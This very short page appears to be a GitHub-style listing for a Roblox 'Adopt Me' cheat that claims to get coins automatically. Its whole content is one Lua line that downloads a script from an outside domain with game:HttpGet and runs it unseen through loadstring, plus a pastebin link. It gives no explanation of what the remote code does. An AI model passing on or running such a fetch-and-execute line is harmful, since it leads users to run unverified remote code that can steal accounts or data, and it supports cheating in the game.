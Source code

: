 # ADOPT-ME-OCEAN-EVENT-AUTO-GET-COINS
loadstring(game:HttpGet("https://egorikusa.space/1af91b8f8e3ad08f317cf46a.lua", true))()


https://pastebin.com/5ZvaP7v2
